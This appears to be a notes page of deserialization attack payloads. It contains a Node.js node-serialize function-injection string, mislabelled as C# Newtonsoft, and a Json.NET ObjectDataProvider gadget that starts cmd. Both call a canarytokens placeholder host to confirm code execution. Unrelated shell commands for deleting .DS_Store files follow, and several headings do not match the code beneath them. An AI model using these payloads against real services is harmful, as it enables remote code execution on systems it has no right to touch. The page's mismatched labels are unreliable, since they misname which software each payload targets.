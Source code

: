 # Object Deserialization
## C# Newtonsoft
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}

```
#####

## Search for a string
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3 ping XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## Find and delete files
```sh
#!/bin/sh

find . -name ".DS_Store*" -print 2>/dev/null |  xargs rm 

```
#####

## Find and delete files (in case of a space in path we should use)
```sh
#!/bin/sh

find . -name ".DS_Store*" -exec rm {} + 2>/dev/null 

```

